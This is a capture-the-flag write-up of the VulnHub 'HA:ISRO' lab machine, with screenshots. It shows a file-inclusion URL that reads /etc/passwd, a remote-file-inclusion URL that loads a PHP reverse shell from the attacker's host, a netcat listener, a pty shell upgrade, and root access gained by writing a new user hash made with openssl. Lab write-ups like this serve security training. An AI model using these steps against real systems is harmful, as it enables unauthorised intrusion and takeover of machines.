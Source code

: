 # HA:ISRO !~~~~ VULNHUB

quickly dive into enumeration:
:nmap:


![2024-09-16_20-48](https://github.com/user-attachments/assets/8f385e61-ed5a-4909-a562-d2553b72858b)



# NIKTO for finding the hidden directories
![2024-09-16_20-57](https://github.com/user-attachments/assets/db908d8b-f883-41b8-a9ab-98f1afff5bcf)




# ::::::i've run  another tool called dirb for hidden dicrectories searching::::

![2024-09-16_21-05](https://github.com/user-attachments/assets/c144594d-2def-46b1-a02a-61d3571ea09a)


After getting /connect.php i simply search it 
http://192.168.73.147/connect.php {its shows blank so is use another method}
~
`
`





# Then i simply perform url injection for getting the passwd file insidings

http://192.168.73.147/connect.php?file=/etc/passwd

![2024-09-16_21-11](https://github.com/user-attachments/assets/7552f865-0c14-46b2-938f-545621631b38)




# After than i simply look onto RFI vulnarebility which actually it shows , so i begin dig in
FIRSTLY :: i've to generate a reverse shell so i downloaded the file called php-reverse-shell/php 
           then i simply edited my own ip and port will be 1234 
           ![2024-09-17_12-35](https://github.com/user-attachments/assets/a65b7aeb-f543-4e13-96d2-a81d77765425)

2ND-LY  :: I've type in url {{http://192.168.73.147/connect.php?file=http://192.168.73.129:5000/php-reverse-shell.php}}
THIRDL-LY :: equivalently i use nc -lvnp 1234 for getting the shell  
             
![2024-09-17_12-44](https://github.com/user-attachments/assets/98c2a376-7627-4b56-aa13-be0638b70219)

  FINALLY get the shell but not in interactive mode
  so i use python script to generate-interactive mode using 
   [python3 -c "import pty;pty.spawn('/bin/bash') ;" ]
  succesfully in interactive mode 
  but not accessing in root so, performing previledge-escalation  
  # FOr that instance i've to create a openssl session and also genareting hash for our new user and gettin also with root previledges 
                                               {openssl passwd -1 -salt user HA:ISRO}
 

   ![2024-09-17_12-54](https://github.com/user-attachments/assets/782b7a8d-7892-4d0d-8d98-9ce0bcccfcd1)
    
    
    
now i've  create a user called darkey and passwd will be-HA:ISRO
  ![2024-09-17_12-58](https://github.com/user-attachments/assets/aa2c15a7-995d-4db5-9f12-91737df53902)

  

then i simp-lly check weather the new user created or not 


![2024-09-17_13-05](https://github.com/user-attachments/assets/8e8925e2-9e46-4515-b8bd-de397c2522f3)


then accessing the root previledge using new user
then i go to cd root then final.txt and get the flag



![Screenshot 2024-09-17 130714](https://github.com/user-attachments/assets/234cc51e-4eb8-4b4b-8392-32256f0ae57d)











